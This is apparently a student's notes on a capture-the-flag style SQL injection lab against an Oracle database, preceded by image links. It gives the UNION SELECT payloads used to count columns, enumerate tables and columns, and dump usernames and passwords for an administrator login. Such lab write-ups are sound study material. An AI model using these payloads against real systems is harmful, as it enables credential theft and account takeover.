





# Lab: SQL Injection — Listing the Database Contents (Oracle)

## Objective
Exploit a SQL injection vulnerability to:
- Enumerate database tables
- Identify the `users` table
- Extract usernames and passwords
- Log in as the administrator user
- 
---

## Steps

1. Open the lab website.
2. Navigate to a product category (e.g., "Gifts").
3. injects payload into url after category value:

---

## Step 1: Determine Number of Columns Using UNION SELECT

### since its oracle database we should use dual table 
### ' UNION SELECT NULL,NULL FROM dual--

---

## Step 2: find data base content

### using sql cheet sheet

### using SELECT * FROM all_tables  to get information about tables exist on oracle database

### ' UNION SELECT NULL,table_name FROM all_tables--

---

## Step 3: finding username and password column using the USERS_QQLFUP table

### lets use all_tab_columns to find all columns for users table

### PAYLOAD
#### ' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name='USERS_QQLFUP'--

##### column_name : display all columns name
##### table_name : name of the table u want to display its columns

---

## Step 4: displaying usernames and passwords for each user

### ' UNION SELECT USERNAME_AQSOLA,PASSWORD_UHUGPC FROM USERS_QQLFUP--

---

## Step 5: Login as Administrator:

---

## Explanation

#### all_tables → lists all tables accessible in the database
#### all_tab_columns → lists column names for tables
#### Oracle requires FROM dual when no table is referenced in simple queries
#### UNION SELECT allows combining injected queries with the original query
#### Extracted data includes usernames and passwords stored in the users table

## What I Learned

#### How to enumerate tables in Oracle using all_tables
#### How to enumerate columns using all_tab_columns
#### Differences between Oracle and other SQL databases
#### How SQL injection can expose sensitive database contents
#### How to perform full data extraction leading to account takeover
